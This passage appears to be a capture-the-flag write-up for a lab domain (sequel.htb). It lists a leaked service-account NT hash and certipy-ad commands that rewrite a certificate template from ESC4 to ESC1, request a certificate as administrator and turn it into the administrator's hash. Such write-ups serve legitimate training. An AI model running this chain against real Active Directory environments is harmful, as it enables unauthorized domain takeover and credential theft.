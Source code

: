 
```
ca_svc:3b181b914e7a9d5508ea1e20bc2b7fce
```

### I use -vuln cmd with certipy to see if it s vulnerable . And we see it s vulnerable to ESC4

```
certipy-ad find -u 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -stdout -vuln 
```

```
Template Name                       : DunderMifflinAuthentication
```

<img width="783" height="248" alt="image" src="https://github.com/user-attachments/assets/ed6cbbd6-3bd5-4f94-b65d-fefc569d0e1c" />


### We make it vulnerable to ESC1


```
certipy-ad template -u 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -write-default-configuration
```


<img width="1392" height="425" alt="image" src="https://github.com/user-attachments/assets/35da27bc-4840-4f3c-ab89-40a8b7c8b91b" />



### And use certipy to request the UPN for administrator account 


```
certipy-ad req \                                                                                                                                      
  -u ca_svc@sequel.htb \
  -hashes 3b181b914e7a9d5508ea1e20bc2b7fce \
  -ca sequel-DC01-CA \
  -template DunderMifflinAuthentication \
  -upn administrator@sequel.htb \
  -dns DC01.sequel.htb \
  -target DC01.sequel.htb \
  -target-ip 10.10.11.51
```


<img width="712" height="409" alt="image" src="https://github.com/user-attachments/assets/a3ecf28a-2731-4d27-afb4-0e83ec0bd1a8" />



### And the hash for the administrator accoutn 


```
certipy-ad auth -pfx administrator_dc01.pfx -dc-ip 10.10.11.51
```
